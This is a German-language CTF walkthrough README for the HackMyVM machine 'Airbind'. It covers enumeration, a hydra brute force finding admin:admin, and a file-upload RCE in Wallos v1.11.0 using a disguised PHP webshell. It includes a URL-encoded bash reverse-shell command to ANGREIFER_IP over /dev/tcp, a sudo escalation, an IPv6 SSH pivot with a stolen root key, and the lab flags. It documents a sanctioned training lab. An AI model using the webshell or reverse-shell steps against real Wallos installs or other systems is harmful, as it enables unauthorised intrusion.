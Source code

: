 # Airbind - HackMyVM Lösungsweg

![Airbind VM Icon](Airbind.png)

Dieses Repository enthält einen Lösungsweg (Walkthrough) für die HackMyVM-Maschine "Airbind".

## Details zur Maschine & zum Writeup

*   **VM-Name:** Airbind
*   **VM-Autor:** DarkSpirit
*   **Plattform:** HackMyVM
*   **Schwierigkeitsgrad (laut Writeup):** Mittel (Medium)
*   **Link zur VM:** [https://hackmyvm.eu/machines/machine.php?vm=Airbind](https://hackmyvm.eu/machines/machine.php?vm=Airbind)
*   **Autor des Writeups:** DarkSpirit
*   **Original-Link zum Writeup:** [https://alientec1908.github.io/Airbind_HackMyVM_Medium/](https://alientec1908.github.io/Airbind_HackMyVM_Medium/)
*   **Datum des Originalberichts:** 07. August 2024

## Verwendete Tools (Auswahl)

*   `arp-scan`
*   `vi`
*   `nikto`
*   `nmap`
*   `gobuster`
*   `curl`
*   `wfuzz`
*   `hydra`
*   `searchsploit`
*   Burp Suite (implizit für Request-Manipulation)
*   `nc` (netcat)
*   `sudo`
*   `cat`
*   `netstat`
*   `ping6`
*   `ssh`
*   `ip`
*   `ifconfig`
*   Standard Linux-Befehle

## Zusammenfassung des Lösungswegs

Das Folgende ist eine gekürzte Version der Schritte, die unternommen wurden, um die Maschine zu kompromittieren, basierend auf dem bereitgestellten Writeup.

### 1. Reconnaissance (Aufklärung)

*   Die Ziel-IP `192.168.2.106` wurde mittels `arp-scan -l` identifiziert.
*   Der Hostname `airbinds.hmv` wurde der IP `192.168.2.106` in der `/etc/hosts`-Datei des Angreifers zugeordnet.
*   Ein `nmap`-Scan (`nmap -sC -sS -sV -AO -T5 192.168.2.106 -p-`) ergab:
    *   **Port 22/tcp (SSH):** `filtered`.
    *   **Port 80/tcp (HTTP):** Offen, Apache httpd 2.4.57 (Ubuntu). Die Seite leitete auf `login.php` weiter und wurde als "Wallos - Subscription Tracker" identifiziert.

### 2. Web Enumeration (Port 80)

*   `nikto` auf `http://192.168.2.106` fand:
    *   Fehlende Security-Header (`X-Frame-Options`, `X-Content-Type-Options`).
    *   PHPSESSID-Cookie ohne `HttpOnly`-Flag.
    *   Verzeichnisauflistung für `/scripts/`, `/db/`, `/includes/`, etc.
    *   `.gitignore` und `.dockerignore` Dateien.
*   `gobuster` auf `http://airbinds.hmv` fand diverse PHP-Dateien (`login.php`, `logos.php`, `auth.php`, `startup.sh`, `nginx.conf`, `manifest.json`).
*   Die `nginx.conf` zeigte, dass PHP-Anfragen an `127.0.0.1:9000` (PHP-FPM) geleitet werden und der Zugriff auf `.db`-Dateien blockiert ist.
*   `wfuzz` zur Subdomain-Enumeration fand keine weiteren Hosts.
*   Im `/db/`-Verzeichnis wurde `wallos.db` (vermutlich SQLite-Datenbank) durch Directory Indexing entdeckt.
*   Die Datei `startup.sh` enthüllte Initialisierungsschritte, Cronjob-Pfade (`/var/www/html/endpoints/cronjobs/`) und Berechtigungsänderungen.

### 3. Initial Access & POC (RCE auf Wallos)

1.  **Zugangsdaten für Wallos gefunden:**
    *   `hydra` wurde gegen `http://airbinds.hmv/login.php` eingesetzt.
    *   Credentials `admin:admin` wurden gefunden.
2.  **Schwachstelle in Wallos identifiziert:**
    *   Nach dem Login wurde auf der `/about.php`-Seite die Version **Wallos v1.11.0** identifiziert.
    *   `searchsploit wallos` fand einen Exploit: **Wallos < 1.11.2 - File Upload RCE (php/webapps/51924.txt)**.
3.  **Ausnutzung der File Upload RCE:**
    *   Ein POST-Request an `/endpoints/subscription/add.php` wurde mit Burp Suite (impliziert) manipuliert:
        *   Eine PHP-Webshell (getarnt mit `GIF89a`-Magic-Bytes) wurde mit `filename="revshell.php"` und `Content-Type: image/jpeg` hochgeladen.
    *   Die Antwort `{"status":"Success",...}` bestätigte den erfolgreichen Upload.
    *   Durch Directory Indexing im Verzeichnis `/images/uploads/logos/` wurde die hochgeladene Datei gefunden (z.B. `1723066478-benhacker.php`).
4.  **Remote Code Execution als `www-data`:**
    *   Die Webshell wurde aufgerufen: `http://airbinds.hmv/images/uploads/logos/SHELLNAME.php?cmd=id`. Die Ausgabe `uid=33(www-data)` bestätigte RCE.
    *   Eine Bash-Reverse-Shell wurde zum Angreifer (Port 9001) etabliert:
        `http://airbinds.hmv/.../SHELLNAME.php?cmd=%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2FANGREIFER_IP%2F9001%200%3E%261%27`
    *   Shell als `www-data` auf einem System namens `ubuntu` (wahrscheinlich ein Container) wurde erlangt.

### 4. Privilege Escalation (auf dem `ubuntu`-Container zu Root)

*   `sudo -l` als `www-data` auf `ubuntu` zeigte: `(ALL) NOPASSWD: ALL`.
*   Mittels `sudo su` wurden Root-Rechte auf dem `ubuntu`-System erlangt.
*   Die User-Flag auf dem `ubuntu`-System wurde unter `/root/user.txt` gefunden.

### 5. Lateral Movement (IPv6 zum Host `airbind`)

*   Als `root` auf dem `ubuntu`-System wurde der private SSH-Schlüssel `/root/.ssh/id_rsa` gefunden.
*   Netzwerkinformationen zeigten, dass `ubuntu` in einem internen Netz (`10.0.3.0/24`) lief.
*   Vom Angreifer-System wurde `ping6 -I eth0 ff02::1` verwendet, um IPv6-Hosts im lokalen Netzwerk zu entdecken. Dabei wurde die Link-Local-Adresse `fe80::a00:27ff:fedc:2a3b%eth0` des Hostsystems (`airbind`) identifiziert.
*   Ein SSH-Login als `root` vom Angreifer-System zum Host `airbind` (`ssh -i /PFAD/ZUM/id_rsa root@fe80::a00:27ff:fedc:2a3b%eth0`) unter Verwendung des zuvor gefundenen privaten Schlüssels war erfolgreich.
    *(Es wird angenommen, dass der öffentliche Teil dieses Schlüssels auf `airbind` für den Root-Login autorisiert war.)*

### 6. Flags

*   **User-Flag (auf dem `ubuntu`-Container, als `root` gelesen):** `/root/user.txt` (im Writeup als "user.txt (auf ubuntu)" bezeichnet)
    ```
    4408f370877687429c6ab332e6f560d0
    ```
*   **Root-Flag (auf dem Hostsystem `airbind`, als `root` gelesen):** `/root/root.txt`
    ```
    2bd693135712f88726c22770278a2dcf
    ```

## Haftungsausschluss (Disclaimer)

Dieser Lösungsweg dient zu Bildungszwecken und zur Dokumentation der Lösung für die "Airbind" HackMyVM-Maschine. Die Informationen sollten nur in ethischen und legalen Kontexten verwendet werden, wie z.B. bei CTFs und autorisierten Penetrationstests.
